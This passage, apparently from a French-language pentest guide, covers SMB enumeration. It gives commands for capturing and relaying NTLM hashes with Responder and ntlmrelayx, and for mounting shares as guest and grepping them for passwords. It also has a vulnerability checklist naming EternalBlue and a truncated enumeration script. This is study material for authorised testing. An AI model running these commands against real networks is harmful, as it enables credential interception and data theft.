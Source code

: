 ### SMB Relay et NTLM
```bash
# 1. Check si SMB signing désactivé (vulnérable au relay)
nmap --script smb-security-mode target.com -p 445

# 2. Responder pour capturer hashes (attaque active)
responder -I eth0 -wrf

# 3. ntlmrelayx pour relay attacks
ntlmrelayx.py -tf targets.txt -smb2support
```

### Montage de Partages SMB
```bash
# 1. Créer point de montage
mkdir /mnt/smb_share

# 2. Monter le partage
mount -t cifs //target.com/sharename /mnt/smb_share -o username=guest,password=

# 3. Exploration avec outils Linux standards
ls -la /mnt/smb_share/
find /mnt/smb_share/ -name "*.txt" -exec grep -l "password" {} \;

# 4. Démonter
umount /mnt/smb_share
```

## 📋 Checklist SMB Enumeration

### ✅ Étapes Essentielles :
1. **Detection SMB** - Ports 139/445 ouverts ?
2. **Version SMB** - SMBv1 (critique!) vs v2/v3 ?
3. **OS Information** - Windows version et nom machine
4. **Share Enumeration** - Quels partages existent ?
5. **Null Session** - Connexion anonyme possible ?
6. **User Enumeration** - Liste des utilisateurs ?
7. **Permission Testing** - Lecture/écriture sur partages ?
8. **Sensitive Files** - Fichiers intéressants trouvés ?

### ✅ Vulnérabilités à Vérifier :
- **SMBv1 Enabled** → EternalBlue (MS17-010)
- **Null Session** → Information disclosure
- **Weak Passwords** → Brute force attack
- **World-Writable Shares** → Malware upload
- **SMB Signing Disabled** → SMB Relay attack

## 🛠️ Script d'Énumération Automatisé

```bash
#!/bin/bash
# SMB Enumeration Script

TARGET=$1
if [ -z "$TARGET" ]; then
    echo "Usage: $0 <target_ip>"
    exit 1
fi

echo "[+] Starting SMB enumeration for $TARGET"
mkdir ${TARGET}_smb_enum

```